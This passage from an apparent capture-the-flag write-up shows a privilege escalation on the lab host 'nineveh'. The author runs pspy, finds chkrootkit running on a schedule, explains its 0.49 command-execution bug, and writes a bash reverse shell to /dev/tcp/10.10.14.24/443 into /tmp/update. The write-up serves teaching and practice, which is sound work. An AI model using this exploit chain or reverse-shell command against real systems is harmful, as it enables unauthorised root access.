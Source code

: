 
Interestingly, it did identify my webshell.

I uploaded and ran [pspy](https://github.com/DominicBreuker/pspy), and each
minute, there’s a flurry of activity, with many of the processes referencing
`/usr/bin/chkrootkit `. [chkrootkit](http://www.chkrootkit.org/) is a tool
that will check a host for for signs of a rootkit.

### chkroot Exploit

Fortunately for me, there’s an exploit against `chkrootkit`:

    
    
    root@kali# searchsploit chkrootkit
    ---------------------------------------------------- ----------------------------------------
     Exploit Title                                      |  Path
                                                        | (/usr/share/exploitdb/)
    ---------------------------------------------------- ----------------------------------------
    Chkrootkit - Local Privilege Escalation (Metasploit | exploits/linux/local/38775.rb
    Chkrootkit 0.49 - Local Privilege Escalation        | exploits/linux/local/33899.txt
    ---------------------------------------------------- ----------------------------------------
    Shellcodes: No Result
    

The `txt` file says that any file in `$SLAPPER_FILES` will run due to a typo
because of this loop:

    
    
       for i in ${SLAPPER_FILES}; do
          if [ -f ${i} ]; then
             file_port=$file_port $i
             STATUS=1
          fi
    

The intended behavior is to set `$file_port` to be equal to `"$file_port $i"`.
But because the `""` are missing, `bash` will treat that as setting
`file_port=$file_port` and then running `$i`.

`$SLAPPER_FILES` is set a few lines earlier:

    
    
       SLAPPER_FILES="${ROOTDIR}tmp/.bugtraq ${ROOTDIR}tmp/.bugtraq.c"
       SLAPPER_FILES="$SLAPPER_FILES ${ROOTDIR}tmp/.unlock ${ROOTDIR}tmp/httpd \
       ${ROOTDIR}tmp/update ${ROOTDIR}tmp/.cinik ${ROOTDIR}tmp/.b"a
    

### Shell

I’ll write a simple reverse shell to `/tmp/update` and make it executable:

    
    
    amrois@nineveh:/tmp$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.24/443 0>&1'
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.24/443 0>&1
    amrois@nineveh:/tmp$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.24/443 0>&1' > update
    amrois@nineveh:/tmp$ chmod +x update
    